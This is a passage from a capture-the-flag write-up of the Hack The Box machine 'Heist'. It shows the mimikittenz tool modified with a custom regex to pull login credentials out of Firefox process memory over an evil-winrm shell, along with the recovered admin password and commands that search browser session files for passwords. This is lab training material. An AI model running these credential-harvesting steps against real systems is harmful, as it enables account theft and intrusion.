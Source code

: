 ```
▐▒▒▒▒mimikittenz-1.0-alpha▒▒▒▒▒▒▒▒▒▐▒█▀─
▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐▀───
▐▒▒▒▒▒▒CAN I HAZ WAM?▒▒▒▒▒▒▒▒▒▒▒▒▌────
─▌▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐─────
─▐▒▒▒jamieson@dringensec.com▒▒▒▒▌─────
──▌▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐──────
──▐▄▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▄▌──────
────▀▄▄▀▀▀▀▄▄▀▀▀▀▀▀▄▄▀▀▀▀▀▀▄▄▀────────
*Evil-WinRM* PS C:\Users\Chase\Documents>

```

That’s because I want to catch chase logging into Heist, not Gmail or GitHub or any well known site. I’ll create a copy of the `ps1` file, and scroll to the bottom. I’ll add a regex based on the Heist POST request:

```

    # HTB-Heist
    [mimikittenz.MemProcInspector]::AddRegex("Heist","login_username=.{1,20}@.{1,20}&login_password=.{1,50}&login=")

```

Also, I’ll edit the line towards the end to tell it to just look at firefox, removing IE and Chrome:

```

$matchesFound=[mimikittenz.MemProcInspector]::InspectManyProcs("firefox")

```

Now, I’ll upload that to a new session of `evil-winrm`, and run it:

```

root@kali# ruby /opt/evil-winrm/evil-winrm.rb -i 10.10.10.149 -u SUPPORTDESK\\chase -s ~/pshs/ -p 'Q4)sJu\Y8qz*A3?d'                                                            

Info: Starting Evil-WinRM shell v1.6

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Chase\Documents> Invoke-mimikittenz-heist.ps1
*Evil-WinRM* PS C:\Users\Chase\Documents> Invoke-mimikittenz
───▐▀▄──────▄▀▌───▄▄▄▄▄▄▄─────────────
───▌▒▒▀▄▄▄▄▀▒▒▐▄▀▀▒██▒██▒▀▀▄──────────
──▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▀▄────────
──▌▒▒▒▒▒▒▒▒▒▒▒▒▒▄▒▒▒▒▒▒▒▒▒▒▒▒▒▀▄──────
▀█▒▒█▌▒▒█▒▒▐█▒▒▀▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▌─────
▀▌▒▒▒▒▒▀▒▀▒▒▒▒▒▀▀▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐───▄▄
▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▌▄█▒█
▐▒▒▒▒mimikittenz-1.0-alpha▒▒▒▒▒▒▒▒▒▐▒█▀─
▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐▀───
▐▒▒▒▒▒▒CAN I HAZ WAM?▒▒▒▒▒▒▒▒▒▒▒▒▌────
─▌▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐─────
─▐▒▒▒jamieson@dringensec.com▒▒▒▒▌─────
──▌▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐──────
──▐▄▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▄▌──────
────▀▄▄▀▀▀▀▄▄▀▀▀▀▀▀▄▄▀▀▀▀▀▀▄▄▀────────

PatternName PatternMatch
----------- ------------
Heist       login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=

```


[10.10.10.149]: PS C:\Users\Chase\Documents> whoami
[10.10.10.149]: PS C:\Users\Chase\appdata\roaming\mozilla\firefox\profiles> dir
[10.10.10.149]: PS C:\Users\Chase\appdata\roaming\mozilla\firefox\profiles\77nc64t5.default\sessionstore-backups> Get-ChildItem -path . -recurse -file | select-string password